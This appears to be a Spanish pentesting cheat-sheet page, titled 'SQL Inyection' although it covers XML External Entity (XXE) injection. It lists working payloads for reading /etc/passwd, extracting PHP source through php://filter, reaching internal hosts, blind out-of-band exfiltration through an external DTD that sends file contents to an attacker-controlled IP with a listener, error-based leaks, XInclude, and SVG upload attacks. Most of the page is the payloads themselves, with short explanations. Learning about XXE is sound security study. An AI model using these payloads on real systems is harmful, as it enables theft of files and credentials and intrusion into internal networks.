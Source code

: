 ```yaml
---
title: "SQL Inyection"
date: 2023-09-18
categories: [Vectores-de-Ataque]
tags: 
  - xxe-injection
  - xxe
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/sql-analisis-negocio-cursin.jpg
    width: 800
    height: 500
---
```


> [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Entidades
- Genéricas / Customizadas
- Externas (XXE)
- Pre-definidas

## Inyecciones Básicas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Esto lo que va a hacer es intentar listar un archivo que reside dentro de la máquina victima mediante un "wrapper" en este caso "file:///"
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Este "wrapper" sirve para que te reporte un archivo .php que reside en la máquina victima en formato "base64" de manera que asi lo puedes decodear con "base64 -d" y analizar el codigo que esta corriendo por detrás
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_interna>/<file>"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

> Con esto lo que podemos hacer es acceder a una IP interna que se encuentre dentro de la red y obtener datos de algún archivo o lo que queramos
{: .prompt-info }

## Inyecciones a Ciegas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<ip_externa>/<file>"> %xxe;]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<<!ENTITY &#x25; exfil SYSTEM 'http://<local_ip>/?file=%file;'>"> 
%eval
%exfil
```
```shell
# Ahora nos ponemos por escucha por el puerto 80
python3 -m http.server 80
```

![](../../assets/VectoresDeAtaque/SQL-Inyection/1.jpg)

> Lo que esta pasando aqui es que de cara a la estructura XXE no nos permite poner entidades (&xxe;)

Por lo tanto lo que esta pasando es que se esta comunicando con un recurso que hemos creado en mi sistema que ya tiene definida entidades XXE por lo tanto la web apunta a nuestro recurso y realiza lo que le hemos indicado en nuestro archivo malicioso y nos lo reporta por pantalla en base64
{: .prompt-info }

## Inyecciones vía mensajes de error
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_externa>/<file>"> %xxe; ]>
<bugreport>
<title>&xxe;</titl1e>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
![](../../assets/VectoresDeAtaque/SQL-Inyection/2.jpg)

> Como vemos nos da error a si que vamos a aprovecharnos de esto para que despues de el error nos carge el archivo que queramos
{: .prompt-info }

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///meloinvento/%file;'>">
%eval;
%exfil;
```

> Lo que esta pasando aqui es que nosotros ocasinamos el error poniendo un archivo que no existe y como nosotros de cara a trámitar la petición ya estamos cargando la entidad en la propia web a si que despues de el erro obtendremos el archivo indicado en este caso "/etc/passwd"
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/3.jpg)

## Inyecciones Xinclude Attack

> Cuando la petición se trámita de manera que no tiene una estructura XML podemos realizar este ataque
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/4.jpg)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"></foo>
```

## Inyecciones vía subida de imagen

> Estas inyecciones se las puedes ver como en este caso al poner un comentario, creamos nuestro archivo que contenga:
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/5.jpg)

![](../../assets/VectoresDeAtaque/SQL-Inyection/6.jpg)

> Si da error o algo lo que podemos hacer es añadirle una extension como .svg , .jpg, .png etc
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/7.jpg)

> Como vemos la propia data nos la representa en la imagen
{: .prompt-info }

